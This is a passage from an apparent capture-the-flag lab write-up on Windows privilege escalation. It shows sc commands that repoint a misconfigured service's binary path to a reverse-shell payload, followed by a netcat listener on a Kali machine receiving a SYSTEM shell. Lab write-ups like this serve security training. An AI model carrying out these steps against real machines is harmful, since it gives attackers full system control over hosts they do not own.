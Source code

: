 We can change config, start and stop the service.

Let's get the config and the current status of the service:

```
C:\PrivEsc>sc qc daclsvc
sc qc daclsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem

C:\PrivEsc>sc query daclsvc
sc query daclsvc

SERVICE_NAME: daclsvc 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 1  STOPPED 
        WIN32_EXIT_CODE    : 1077  (0x435)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

```

The service is currently stopped, it has to be started manually (`DEMAND_START`) and it should run with the permissions of the system user (`LocalSystem`).

In order to privesc, we can change the `BINARY_PATH_NAME` to our reverse shell payload and then start the service:

```cmd
C:\PrivEsc>sc config daclsvc binpath= "\"C:\PrivEsc\reverse-shell.exe\""

[SC] ChangeServiceConfig SUCCESS
C:\PrivEsc>net start daclsvc
net start daclsvc
The service is not responding to the control function.

More help is available by typing NET HELPMSG 2186.
```

Start a(nother) listener on your Kali machine and BOUM we're SYSTEM:

```console
root@kali:~/thm/windows10privesc# nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.11.35.147] from (UNKNOWN) [10.10.61.59] 49940
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

